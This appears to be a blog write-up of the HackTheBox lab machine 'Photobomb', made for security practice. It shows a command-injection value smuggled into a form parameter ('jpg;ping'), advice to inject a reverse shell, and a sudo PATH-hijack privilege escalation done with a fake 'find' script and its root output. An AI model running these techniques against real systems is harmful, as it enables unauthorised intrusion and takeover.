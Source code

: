 ```yaml
---
title: Photobomb [HTB]
published: true
---
```


# Introduction
Photobomb is a straightforward Hackthebox machine (Easy difficulty). It does not have a lot of steps and I don't think I learned a lot from this box. Although it was a good way to get into security again. Since I had a little break from it. College got in the way and I got a Quarter-life crisis. Let's get into it then!

# Initial enumeration
Nmap wasn't that useful for this box. It just displayed SSH and HTTP services, as usual. So I will not post the outputs here.

After setting photobomb.htb in /etc/hosts, we use gobuster to find interesting directories. But since it wasn't useful, I won't post it here either.

# Getting User.txt

Visiting the website we can see a link, and by clicking it, it asks for creds, which we don't have. When we check the sources of the page, there's a JavaScript file that looks for a cookie using regex. If there's a match you're logged in to the site using the username: pH0t0 and the password: b0Mb!

Cool, now we can select and download pictures, there's a POST form. Using burpsuite let's see the request and response. The POST request looks like this:

```
POST /printer HTTP/1.1
Host: photobomb.htb
Content-Length: 78
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://photobomb.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://photobomb.htb/printer
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg&dimensions=3000x2000

```

The following parameters are present: photo, filetype, and dimensions. There might be a conversion taking place on the backend. Which might mean that we can cause some RCE. Let's use parameter tampering with pings to check if there's a delay in response.

```
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;ping%20-c%203&dimensions=3000x2000
```

Yup, there's a delay, RCE is possible in the filetype parameter!
Now just find a python shell online, use URL encoding to encode it, and paste it in the filetype parameter. DON'T FORGET TO WRITE "jpg;" IN THE PARAMETER!

Pop a shell and get user.txt!

# Getting root
Now we have a shell, so let's try to find something useful to get root. I always start by checking what sudo -l returns.

```
$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

/opt/cleanup.sh looks like a very interesting script. Let's check it out!

```
$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

So basically this script cleans up log files from the web app. I'll be honest, the solution didn't come clear to me. However, it worked and it was very simple and easy to understand, basically, we will "replace" the find command and use it as a way to pop a privileged shell. So let's do it!

```
$ cd /tmp
$ touch find
$ echo "/bin/bash -p" > find
$ chmod +x find
$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
id
uid=0(root) gid=0(root) groups=0(root)
```

# Conclusion
Overall, this machine was very straightforward. It was a very easy machine, without many steps. Getting user was extremely easy for me. However, Root required a little research and creativity! 5/10 box!
